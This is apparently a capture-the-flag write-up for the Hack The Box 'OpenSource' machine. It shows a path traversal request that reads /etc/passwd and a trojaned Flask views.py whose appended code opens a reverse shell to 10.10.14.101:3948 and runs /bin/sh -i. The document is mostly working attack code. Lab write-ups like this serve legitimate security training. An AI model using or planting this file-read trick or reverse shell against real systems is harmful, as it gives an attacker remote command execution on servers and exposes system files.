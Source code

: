 # htb-opensource

# User Access
### LFI

`os.path.join` function has an input of path, if this input equals to an absolute path, the command will throw other inputs and only reads the absolute path.

so getting the following URL gives us `/etc/passwd`

~~~
/uploads/..//etc/passwd
~~~


### Reverse shell

uploaded a `reverseshell.py` into /app/app/views.py

~~~
import os
from os import dup2
from subprocess import run

import socket

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))




s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",3948)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/sh","-i"])
~~~
